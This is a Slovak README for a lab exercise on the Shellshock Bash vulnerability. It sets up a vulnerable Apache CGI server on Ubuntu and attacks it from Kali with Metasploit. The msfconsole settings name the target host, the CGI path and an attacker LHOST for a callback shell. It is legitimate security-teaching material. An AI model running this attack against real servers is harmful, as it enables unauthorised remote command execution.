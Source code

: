# Otestovanie zraniteľnosti Shellshock na Ubuntu 14.04

CVE-2014-6271, známe aj ako „Shellshock“, bolo objavené v septembri 2014 bezpečnostným výskumníkom Stéphane Chazelasom. 
Využíva chybu v príkazovom interpretery Bash od verzie 1.14 po 4.3. Zraniteľné boli všetky zariadenia, 
ktoré ho používali. Vzdialenému útoku boli však vystavení iba používatelia, ktorí boli pripojení na internet. Okrem 
toho je potrebný určitý softvér, ktorý poskytuje cestu, cez ktorú sa útočník môže dostať k príkazovému interpreteru 
Bash, napríklad pri webovom serveri Apache je to CGI, ktorý slúži na interakciu s jeho programami. Experti 
vypočítali, že „Shellshock“ sa týkal vyše 500 miliónov zariadení.

Zraniteľnosť vzniká kvôli chybe v spracovaní premenných prostredia v príkazovom interpretery Bash, najmä definície 
funkcií. Toto sa dá zneužiť na vykonanie ľubovoľného kódu, získanie neoprávneného prístupu k systému, poprípade 
vykonanie rôznych útokov, ako napríklad DoS, Code Injection alebo Remote Command Execution.

## Konfigurácia Ubuntu

Pre otestovanie sme si stiahli verziu webového servera Apache verzie 2.4.7 a overili verziu príkazového interpreteru 
Bash, ktorá bola verzie 4.3.8. Následne sme si vytvorili a vložili na server CGI skript, konkrétne `hw.sh`. V súbore 
VAGRANT sme si vybrali vhodný systém na stiahnutie, nastavili adresu IP, stiahli a nakonfigurovali webový server
Apache tak aby bolo možné spúštať súbory CGI. Nakoniec sme vložili skript `hw.sh` a nastavili ho na spustiteľný.

## Konfigurácia Kali Linux 

Pre zaútočenie sme si vložili súbor `set-msfconsole.rc` a `HACK.sh` na plochu distribúcie. Útok spustíme otvorením konzoly a spustením príkazu: 

```shell
./Desktop/HACK.sh
```

`HACK.sh` nám otvorí v kozole nástroj msfconsole pomocou súboru `set-msfconsole.rc`. V ňom sa nastaví IP zraniteľnej mašiny pomocou 
`set RHOSTS 192.168.50.20` a cesta `set TARGETURI /cgi-bin/hw.sh`, čo nám nastaví cestu k skriptu CGI. 
Ostáva nám nastaviť IP útočníka `set LHOST 192.168.50.21` a spustiť útok. 

